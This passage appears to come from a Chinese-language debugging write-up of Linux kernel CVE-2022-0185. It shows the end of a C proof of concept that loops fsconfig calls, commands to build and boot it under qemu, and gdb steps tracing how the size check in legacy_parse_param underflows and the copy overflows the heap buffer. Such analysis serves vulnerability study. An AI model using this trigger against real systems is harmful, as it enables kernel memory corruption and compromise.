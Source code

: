 ```c
        for (int i = 0; i < 5000; i++) {
                fsconfig(fd, FSCONFIG_SET_STRING, "\x00", val, 0);
        }
        return 0;
}
```

静态编译之后打包到文件系统里用qemu 启动内核

```shell
cd ~/cve-2022-0185
gcc poc.c --static
cp a.out rootfs/a.out
cd rootfs
find . | cpio -o --format=newc > ../rootfs.img
cd ../
./boot_poc.sh
```

换另一个终端使用gdb 远程调试：

```shell
cd ~ 
gdb ./vmlinux
target remote :10086
directory /root/linux-5.13
b legacy_parse_param 
c
```

第一次调用的时候：

`legacy_data` 还没初始化：

<img src="img/image-20220218115424519.png" alt="image-20220218115424519" style="zoom:80%;" />

会在后面调用`kmalloc` 初始化，之后会将输入字符串拷贝到`legacy_data` 中。函数返回时已经将第一个字符串拷贝过去了，会在前面加上`',='` ，长度为0x69。

<img src="img/image-20220218115629610.png" alt="image-20220218115629610" style="zoom:80%;" />

由于我们是分多次调用fsconfig 来进行字符串拷贝。每次传入 0x67 个`'A'` ，加上`legacy_parse_param` 函数会在前面加上`',='` ，所以每次拷贝长度为0x69，拷贝39次之后`legacy_data` 的长度就会到达0xfff，拷贝39次之后，断住查看：

<img src="img/image-20220218120003864.png" alt="image-20220218120003864" style="zoom:80%;" />

发现目前`legacy_data` 的`data_size` 已达到 0xfff

<img src="img/image-20220218143242019.png" alt="image-20220218143242019" style="zoom:80%;" />

在`kmalloc` 申请的0x1000 大小内存空间也马上要达到极限。查看漏洞发生处：

<img src="img/image-20220218143643847.png" alt="image-20220218143643847" style="zoom:80%;" />

0x68 小于反转后的 0xffff....，校验通过，拷贝之后直接越界，覆盖了后面的内存内容：

<img src="img/image-20220218143840967.png" alt="image-20220218143840967" style="zoom:80%;" />
